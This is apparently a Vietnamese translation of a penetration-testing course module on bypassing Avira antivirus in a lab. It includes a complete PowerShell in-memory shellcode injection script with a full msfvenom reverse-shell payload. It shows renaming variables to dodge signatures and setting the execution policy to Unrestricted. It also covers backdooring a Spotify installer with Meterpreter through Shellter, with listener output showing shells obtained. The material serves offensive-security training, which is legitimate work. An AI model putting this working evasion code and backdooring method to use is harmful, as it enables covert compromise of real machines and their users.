Với mục đích của Module này, chúng ta sẽ tương tác với Avira Free Security phiên bản 1.1.68.29553 trên máy Windows 11 client. Khi kết nối qua RDP bằng thông tin xác thực được cung cấp, chúng ta sẽ thấy Avira đã được cài đặt sẵn và có thể khởi chạy từ shortcut trên Desktop. Khi đã chạy, chúng ta có thể chuyển đến bảng Security từ menu bên trái và nhấp vào Protection Options:


                                      *Figure 3: Tìm Protections Options trong menu Avira*

Việc mở phần menu này sẽ hiển thị các lớp bảo vệ đang chạy, nơi chúng ta có thể xác minh tính năng Real-Time Protection có được bật hay không và bật thủ công nếu cần.


                                                      *Figure 4: Avira Control Center.*

Là bước đầu tiên khi kiểm thử các sản phẩm AV, chúng ta nên xác minh rằng antivirus đang hoạt động đúng như mong đợi. Chúng ta sẽ sử dụng payload Metasploit đã tạo trước đó và quét nó bằng Avira.

Sau khi chuyển file PE độc hại sang Windows client, gần như ngay lập tức chúng ta nhận được cảnh báo về nội dung độc hại của file được tải lên. Trong trường hợp này, chúng ta được hiển thị một thông báo lỗi cho biết file đã bị chặn.


                                   *Figure 5: Thông báo Quarantine của Avira Free Antivirus*

Avira hiển thị một thông báo popup cho biết file đã bị đánh dấu là malicious và đưa vào quarantine.

Các sản phẩm antivirus thường áp dụng quarantine mối đe dọa bằng cách chặn các thao tác trên filesystem ở mức kernel hoặc thậm chí lưu trữ các mẫu độc hại trong vùng lưu trữ được mã hóa chỉ AV software mới truy cập được.

Tùy theo mức độ hạn chế của môi trường mục tiêu, chúng ta có thể bypass antivirus với sự hỗ trợ của PowerShell.

Trong ví dụ sau, chúng ta sẽ sử dụng một kỹ thuật remote process memory injection, tương tự như những gì đã học trong Learning Unit trước. Khác biệt chính nằm ở chỗ chúng ta sẽ nhắm vào process đang thực thi hiện tại, trong trường hợp này là PowerShell interpreter x86.

Một tính năng rất mạnh của PowerShell là khả năng tương tác với Windows API. Điều này cho phép chúng ta triển khai quy trình in-memory injection trong một PowerShell script. Một lợi ích chính của việc thực thi script thay vì PE là antivirus vendor khó xác định script là malicious hơn, vì nó chạy trong một interpreter và bản thân script không phải là executable code. Dù vậy, cần lưu ý rằng một số sản phẩm AV xử lý phát hiện script độc hại thành công hơn các sản phẩm khác.

Hơn nữa, ngay cả khi script bị đánh dấu là malicious, nó có thể dễ dàng bị chỉnh sửa. Antivirus thường xem xét tên biến, comment và logic - tất cả đều có thể thay đổi mà không cần recompile.

Để minh họa một bypass AV ở mức nhập môn, chúng ta sẽ phân tích một phiên bản phổ biến của memory injection PowerShell script và kiểm thử nó với Avira.

Một script mẫu cơ bản thực hiện in-memory injection được minh họa trong listing dưới đây. 

```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = 
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

                          *Listing 6 - In-memory payload injection script for PowerShell*

Script bắt đầu bằng việc import VirtualAlloc và CreateThread từ kernel32.dll cũng như memset từ msvcrt.dll. Các hàm này cho phép chúng ta lần lượt cấp phát bộ nhớ, tạo thread thực thi và ghi dữ liệu tùy ý vào vùng bộ nhớ đã cấp phát. Một lần nữa, lưu ý rằng chúng ta cấp phát bộ nhớ và thực thi thread mới trong process hiện tại (powershell.exe) thay vì process từ xa.

```powershell
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';
```

                                       *Listing 7 - Importing Windows APIs in PowerShell*

Logic chính của script bắt đầu bằng việc cấp phát một khối bộ nhớ bằng VirtualAlloc, sau đó lấy từng byte của payload lưu trong mảng byte và ghi nó vào khối bộ nhớ mới cấp phát bằng memset.

```powershell
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};
```

           *Listing 8 - Memory allocation and payload writing using Windows APIs in PowerShell*

Ở bước cuối, payload đã được ghi trong bộ nhớ sẽ được thực thi trong một thread riêng bằng CreateThread API.

```powershell
$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

                                      *Listing 9 - Calling the payload using CreateThread*

Payload được chọn không có sẵn trong script, nhưng có thể được tạo bằng msfvenom. Chúng ta sẽ giữ payload giống hệt như các bài test trước để đảm bảo tính nhất quán.

```powershell
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f powershell -v sc
...
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 699 bytes
Final size of powershell file: 3454 bytes
[Byte[]] $sc =  0xfc,0xe8,0x82,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28
...
```

                     *Listing 10 - Generating a PowerShell compatible payload using msfvenom*

Output thu được có thể được sao chép vào script cuối cùng bằng cách chép nội dung biến tương ứng vào script.

Script hoàn chỉnh có dạng như sau: 

```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]] $sc = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28,0xf,0xb7,0x4a,0x26,0x31,0xff,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0xc1,0xcf,0xd,0x1,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x1,0xd1,0x51,0x8b,0x59,0x20,0x1,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,0x1,0xd6,0x31,0xff,0xac,0xc1,0xcf,0xd,0x1,0xc7,0x38,0xe0,0x75,0xf6,0x3,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x1,0xd3,0x66,0x8b,0xc,0x4b,0x8b,0x58,0x1c,0x1,0xd3,0x8b,0x4,0x8b,0x1,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,0x8d,0x5d,0x68,0x33,0x32,0x0,0x0,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,0x77,0x26,0x7,0xff,0xd5,0xb8,0x90,0x1,0x0,0x0,0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x0,0xff,0xd5,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x5,0x68,0xc0,0xa8,0x32,0x1,0x68,0x2,0x0,0x1,0xbb,0x89,0xe6,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0xc,0xff,0x4e,0x8,0x75,0xec,0x68,0xf0,0xb5,0xa2,0x56,0xff,0xd5,0x68,0x63,0x6d,0x64,0x0,0x89,0xe3,0x57,0x57,0x57,0x31,0xf6,0x6a,0x12,0x59,0x56,0xe2,0xfd,0x66,0xc7,0x44,0x24,0x3c,0x1,0x1,0x8d,0x44,0x24,0x10,0xc6,0x0,0x44,0x54,0x50,0x56,0x56,0x56,0x46,0x56,0x4e,0x56,0x56,0x53,0x56,0x68,0x79,0xcc,0x3f,0x86,0xff,0xd5,0x89,0xe0,0x4e,0x56,0x46,0xff,0x30,0x68,0x8,0x87,0x1d,0x60,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x68,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x3c,0x6,0x7c,0xa,0x80,0xfb,0xe0,0x75,0x5,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x0,0x53,0xff,0xd5;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

                                   *Listing 11 - First attempt for in-memory injection script*

Tiếp theo, chúng ta sẽ xác minh tỷ lệ phát hiện đối với PowerShell script. Lựa chọn ưu tiên sẽ là Antiscan.Me, nhưng tiếc là nó không hỗ trợ định dạng ps1, vì vậy chúng ta phải dùng VirusTotal.


                      Figure 6: Kết quả VirusTotal cho in-memory injection trong PowerShell

Theo kết quả quét VirusTotal, 28/59 sản phẩm AV đã đánh dấu script là malicious, bao gồm cả Avira. Điều này không khả quan như kỳ vọng, vì vậy chúng ta cần “lách” phần logic signature của AV ở một mức độ nhất định.

Như đã đề cập, script chỉ là file văn bản được interpreter xử lý. Chúng không dễ bị fingerprint như binary file (vốn có định dạng dữ liệu có cấu trúc hơn).

Để bắt các script độc hại, AV vendor thường dựa vào các signature chuỗi tĩnh liên quan đến các phần code có ý nghĩa, chẳng hạn như tên biến hoặc tên hàm.

Để bypass logic phát hiện này, hãy đổi tên các biến trong script trước đó sang các tên chung hơn. 

```powershell
$var2 = Add-Type -memberDefinition $code -Name "iWin32" -namespace Win32Functions -passthru;

[Byte[]];   
[Byte[]] $var1 = 0xfc,0xe8,0x8f,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xd2,0x64,0x8b,0x52,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28
...

$size = 0x1000;

if ($var1.Length -gt 0x1000) {$size = $var1.Length};

$x = $var2::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($var1.Length-1);$i++) {$var2::memset([IntPtr]($x.ToInt32()+$i), $var1[$i], 1)};

$var2::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

                                 *Listing 12 - Renaming variables for In-memory Injection*

Chúng ta đã cập nhật script bằng cách đổi tên class hard-coded cho Add-Type sang `iWin32`. Tương tự, chúng ta đổi tên các biến liên quan sang `var1` và `var2`.

Sau khi lưu script PowerShell thành `bypass.ps1` và chuyển sang Windows 11 client mục tiêu, chúng ta có thể chạy Quick Scan để xác minh vector tấn công không bị phát hiện. Để chạy scan, nhấp Security ở menu bên trái, chọn Virus Scans, rồi nhấp Scan trong mục Quick Scan.

Để có cảm nhận về tỷ lệ phát hiện, chúng ta cũng có thể upload bản bypass đã chỉnh sửa lên VirusTotal. Tuy nhiên, như đã học trước đó, điều này có thể làm ảnh hưởng đến penetration test vì mẫu có thể bị phân tích và bị phát hiện bởi các cloud-based machine learning engine mạnh hơn.

Sau khi Avira quét script trên máy Windows 11, Avira cho biết script không phải malicious.


                            *Figure 7: Avira quét PowerShell script độc hại của chúng ta*

Vì payload msfvenom là cho x86, chúng ta sẽ mở phiên bản PowerShell x86 có tên Windows PowerShell (x86), như minh họa trong hình bên dưới.


                                           *Figure 8: Khởi chạy phiên bản powershell x86*

Hãy chạy bypass.ps1 và phân tích output.

```powershell
PS C:\Users\offsec\Desktop> .\bypass.ps1
.\bypass.ps1 : File C:\Users\offsec\Desktop\bypass.ps1 cannot be loaded because running scripts is disabled on this
system. For more information, see about_Execution_Policies at https:/go.microsoft.com/fwlink/?LinkID=135170.
At line:1 char:1
+ .\bypass.ps1
+ ~~~~~~~~~~~~
    + CategoryInfo          : SecurityError: (:) [], PSSecurityException
    + FullyQualifiedErrorId : UnauthorizedAccess
```

                                     *Listing 13 - Thử chạy script và gặp lỗi Execution Policies*

Không may, khi cố chạy script độc hại, chúng ta nhận được lỗi tham chiếu đến Execution Policies của hệ thống, có vẻ như đang ngăn script chạy.

Một lượt xem nhanh tài liệu Microsoft về PowerShell execution policies (liên kết trong thông báo lỗi) cho thấy các policy này được thiết lập theo từng user thay vì theo toàn hệ thống.

Hãy nhớ rằng, tương tự nhiều thứ trong Windows, thiết lập PowerShell Execution Policy có thể bị chi phối bởi một hoặc nhiều Active Directory GPO. Trong các trường hợp đó, có thể cần tìm thêm các vector bypass khác.

Hãy thử xem và thay đổi policy cho user hiện tại. Lưu ý rằng trong trường hợp này, chúng ta chọn thay đổi policy theo kiểu toàn cục thay vì theo từng script, điều có thể thực hiện bằng cách dùng cờ -ExecutionPolicy Bypass cho từng lần chạy script.

Đầu tiên, chúng ta lấy execution policy hiện tại bằng `Get-ExecutionPolicy -Scope CurrentUser` rồi đặt nó thành `Unrestricted` bằng `Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser`.

```powershell
PS C:\Users\offsec\Desktop> Get-ExecutionPolicy -Scope CurrentUser
Undefined

PS C:\Users\offsec\Desktop> Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help Module at
https:/go.microsoft.com/fwlink/?LinkID=135170. Do you want to change the execution policy?
[Y] Yes  [A] Yes to All  [N] No  [L] No to All  [S] Suspend  [?] Help (default is "N"): A

PS C:\Users\offsec\Desktop> Get-ExecutionPolicy -Scope CurrentUser
Unrestricted
```

                                    *Listing 14 - Thay đổi ExecutionPolicy cho user hiện tại*

Listing trên cho thấy chúng ta đã thay đổi policy cho user hiện tại thành Unrestricted thành công.

Trước khi thực thi script, chúng ta sẽ khởi chạy một listener Netcat trên máy Kali attacker để tương tác với shell.

```bash
kali@kali:~$ nc -lvnp 443
listening on [any] 443 ...
```

                              *Listing 15 - Thiết lập netcat listener để tương tác với reverse shell*

Giờ chúng ta sẽ thử chạy PowerShell script:

```powershell
PS C:\Users\offsec\Desktop> .\bypass.ps1

IsPublic IsSerial Name                                     BaseType
-------- -------- ----                                     --------
True     True     Byte[]                                   System.Array
124059648
124059649
...
```

                                                   *Listing 16 - Chạy PowerShell script*

Script chạy không có vấn đề và chúng ta nhận được reverse shell trên máy tấn công.

```bash
kali@kali:~$ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.50.1] from (UNKNOWN) [192.168.50.62] 64613
Microsoft Windows [Version 10.0.22000.675]
(c) Microsoft Corporation. All rights reserved.

C:\Users\offsec>whoami
whoami
client01\offsec

C:\Users\offsec>hostname
hostname
client01
```

                                       *Listing 17 - Nhận reverse shell trên máy tấn công*

Điều này nghĩa là chúng ta đã né tránh phát hiện của Avira trên mục tiêu một cách hiệu quả. Trong các tổ chức trưởng thành, có thể triển khai các phần mềm machine learning nhằm phân tích nội dung của các script được chạy trên hệ thống. Tùy thuộc vào cấu hình các hệ thống này và những gì chúng xem là có hại, các script như ở trên có thể cần được thay đổi hoặc điều chỉnh theo môi trường mục tiêu.

Ngoài ra, khi được triển khai đúng cách cùng với một operations center có năng lực, các hệ thống EDR có thể âm thầm cảnh báo đội SOC và khiến cuộc tấn công của chúng ta trở nên vô hiệu chỉ trong vài phút.

---

## 3.3. Tự động hóa quy trình

---

Giờ đây, khi chúng ta đã học cách né tránh một AV thủ công thông qua PowerShell, hãy khám phá cách tự động hóa các payload né tránh AV.

Shellter là một công cụ dynamic shellcode injection và là một trong những công cụ miễn phí phổ biến nhất có khả năng bypass phần mềm antivirus. Nó sử dụng một số kỹ thuật mới lạ và nâng cao để backdoor một file thực thi hợp lệ và không malicious bằng một shellcode payload malicious.

Mặc dù chi tiết các kỹ thuật mà Shellter sử dụng nằm ngoài phạm vi của Module này, về bản chất nó thực hiện phân tích kỹ lưỡng file PE mục tiêu và các execution path. Sau đó, nó xác định vị trí có thể inject shellcode của chúng ta mà không dựa vào các kỹ thuật injection truyền thống vốn dễ bị AV engine phát hiện. Những kỹ thuật đó bao gồm việc thay đổi permission của section trong PE, tạo section mới, v.v.

Cuối cùng, Shellter cố gắng tận dụng các entry sẵn có trong PE Import Address Table (IAT) để định vị các hàm sẽ được dùng cho việc cấp phát bộ nhớ, chuyển dữ liệu và thực thi payload của chúng ta.

Ngoài ra cũng có phiên bản trả phí Shellter Pro hỗ trợ cả binary 32-bit và 64-bit, bao gồm các tính năng anti-AV stealth hơn.

Với một chút lý thuyết làm nền, hãy thử bypass phần mềm antivirus Avira hiện tại của chúng ta bằng Shellter. Chúng ta có thể cài Shellter trong Kali bằng lệnh apt.

```bash
kali@kali:~$ apt-cache search shellter
shellter - Dynamic shellcode injection tool and dynamic PE infector

kali@kali:~$ sudo apt install shellter
...
```

                                                  *Listing 18 - Cài shellter trên Kali Linux*

Vì Shellter được thiết kế để chạy trên hệ điều hành Windows, chúng ta cũng sẽ cài wine, một lớp tương thích có khả năng chạy các ứng dụng win32 trên nhiều hệ điều hành tuân thủ POSIX.

```bash
kali@kali:~$ sudo apt install wine
...

root@kali:~$ dpkg --add-architecture i386 && apt-get update && apt-get install wine32    
```

                                                   *Listing 19 - Cài wine trên Kali Linux*

Sau khi mọi thứ được cài đặt, chạy lệnh shellter trong terminal Kali cục bộ sẽ cung cấp cho chúng ta một console mới chạy dưới wine.


                                                     *Figure 9: Console shellter ban đầu.*

Shellter có thể chạy ở chế độ Auto hoặc Manual. Ở chế độ Manual, công cụ sẽ khởi chạy PE mà chúng ta muốn dùng để injection và cho phép thao tác ở mức chi tiết hơn. Chúng ta có thể dùng chế độ này để tùy biến mạnh quy trình injection trong trường hợp các tùy chọn được chọn tự động bị thất bại.

Tuy nhiên, với mục đích của ví dụ này, chúng ta sẽ chạy Shellter ở chế độ Auto bằng cách chọn A ở prompt.

Tiếp theo, chúng ta phải chọn một PE mục tiêu. Shellter sẽ phân tích và thay đổi execution flow để inject và thực thi payload của chúng ta. Trong ví dụ này, chúng ta sẽ sử dụng file cài đặt trial Windows 32-bit của trình phát nhạc phổ biến Spotify làm PE mục tiêu. Tại thời điểm viết, Spotify chỉ cung cấp phiên bản trình cài đặt Windows 32-bit.

*Trong các engagement thực tế, đây là best practice để chọn một ứng dụng mới, ít bị soi xét hơn như tác giả của Shellter giải thích.*

Để bắt đầu, chúng ta cần cung cấp cho Shellter vị trí file cài đặt Spotify trên máy Kali cục bộ. Trước khi phân tích và thay đổi PE gốc theo bất kỳ cách nào, Shellter sẽ tạo một bản backup của file.


                           *Figure 10: Chọn PE mục tiêu trong shellter và thực hiện backup*

Ngay khi Shellter tìm được vị trí phù hợp để inject payload, nó sẽ hỏi chúng ta có muốn bật Stealth Mode hay không; chế độ này sẽ cố gắng khôi phục execution flow của PE sau khi payload của chúng ta đã được thực thi. Hãy bật Stealth Mode vì chúng ta muốn trình cài đặt Spotify hoạt động bình thường để tránh gây nghi ngờ.

Tại thời điểm này, chúng ta được cung cấp danh sách các payload có sẵn. Danh sách này bao gồm các lựa chọn phổ biến như Meterpreter, và Shellter cũng hỗ trợ payload tùy chỉnh.


                                   *Figure 11: Danh sách payload có sẵn trong shellter*

Lưu ý rằng để có thể khôi phục execution flow thông qua tùy chọn Stealth Mode, các payload tùy chỉnh cần kết thúc bằng cách thoát thread hiện tại.

Sau một số thử nghiệm, có vẻ như bất kỳ payload không phải Meterpreter nào đều không thực thi đúng trên Windows 11 và do đó, chúng ta sẽ cần dùng các payload dựa trên Meterpreter.

Ở giai đoạn này, chúng ta không cần quá bận tâm về khác biệt giữa payload tiêu chuẩn và payload Meterpreter vì chúng ta sẽ học về chúng trong một Module sắp tới.

Để kiểm thử khả năng bypass của Shellter, chúng ta sẽ dùng phiên bản Meterpreter của reverse shell payload mà Avira đã phát hiện ở đầu Module này. Sau khi liệt kê các payload, chúng ta chọn payload đầu tiên. Tiếp theo, chúng ta được yêu cầu điền các tùy chọn mặc định như reverse shell host (LHOST) và port (LPORT), và chúng ta nên điền địa chỉ IP và port lắng nghe của Kali cục bộ.


                                             *Figure 12: Tùy chọn payload trong shellter*

Khi mọi tham số đã được thiết lập, Shellter sẽ inject payload vào trình cài đặt Spotify và cố gắng đi tới instruction đầu tiên của payload.


                                            *Figure 13: shellter xác minh việc injection*

Giờ khi bài test đã thành công, trước khi chuyển file PE malicious sang Windows client, chúng ta sẽ cấu hình một listener trên máy Kali để tương tác với Meterpreter payload.

```bash
kali@kali:~$ msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.50.1;set LPORT 443;run;"
...
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/meterpreter/reverse_tcp
LHOST => 192.168.50.1
LPORT => 443
[*] Started reverse TCP handler on 192.168.50.1:443
```

                                    *Listing 20 - Thiết lập handler cho meterpreter payload*

Tiếp theo, chúng ta sẽ chuyển trình cài đặt Spotify đã bị backdoor sang Windows 11 client mục tiêu và chạy một Avira Quick Scan như đã làm trước đó.


                                              *Figure 14: Chạy Quick Scan bằng Avira*

Quick Scan của Avira kiểm tra bên trong common folder của mọi user, bao gồm cả Desktop folder.

Vì Shellter làm rối (obfuscate) cả payload lẫn payload decoder trước khi inject chúng vào PE, lượt quét signature-based của Avira cho kết quả “clean”. Nó không xem binary là malicious.

Khi chúng ta thực thi file, chúng ta thấy cửa sổ cài đặt Spotify mặc định; trong điều kiện bình thường nó sẽ tải gói Spotify qua internet. Vì VM của chúng ta không có kết nối internet, trình cài đặt Spotify sẽ bị treo vô thời hạn.


                                    *Figure 15: Khởi chạy trình cài đặt Spotify đã bị backdoor*

Quan sát cửa sổ multi/handler của chúng ta cho thấy chúng ta đã nhận được Meterpreter shell thành công.

```bash
...
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/meterpreter/reverse_tcp
LHOST => 192.168.50.1
LPORT => 443
[*] Started reverse TCP handler on 192.168.50.1:443
[*] Sending stage (175174 bytes) to 192.168.50.62
[*] Meterpreter session 1 opened (192.168.50.1:443 -> 192.168.50.62:52273)...

meterpreter > shell
Process 6832 created.
Channel 1 created.
Microsoft Windows [Version 10.0.22000.739]
(c) Microsoft Corporation. All rights reserved.

C:\Users\offsec\Desktop>whoami
whoami
client01\offsec
```

                                       *Listing 21 - Nhận được meterpreter session*

Chúng ta đã khởi chạy một Windows shell session tương tác và xác minh rằng chúng ta thực sự đã vào được máy mục tiêu với user offsec.

Tuyệt vời. Chúng ta đã né tránh được các cơ chế phát hiện của antivirus bằng cách inject một payload malicious vào một chương trình vốn hợp lệ. Ví dụ nền tảng này có thể được mở rộng thêm và tùy biến theo từng trường hợp trong các phishing engagement thực tế.

---

# 4. Tổng kết

---

Trong Module này, chúng ta đã thảo luận về mục đích của phần mềm antivirus và các phương pháp phổ biến nhất được các vendor sử dụng để phát hiện mã độc. Chúng ta cũng đã trình bày ngắn gọn nhiều phương pháp bypass antivirus khác nhau, bao gồm các kỹ thuật shellcode injection trên đĩa (on-disk) và trong bộ nhớ (in-memory), đồng thời minh họa các bypass thành công bằng Shellter và PowerShell.

Mặc dù chúng ta đã bypass thành công cơ chế phát hiện của antivirus trong cả hai ví dụ, nhưng thực tế mới chỉ chạm tới bề nổi của lĩnh vực phát hiện và né tránh malware. Để đọc thêm và hiểu rõ mức độ công sức mà các tác giả malware phải bỏ ra nhằm né tránh các biện pháp phòng thủ hiện đại, chúng tôi khuyến nghị bạn đọc bài viết xuất sắc của Microsoft **FinFisher exposed: A researcher’s tale of defeating traps, tricks, and complex virtual machines** cùng với một số kỹ thuật né tránh nâng cao được liệt kê trong bài nghiên cứu của Emeric Nasi.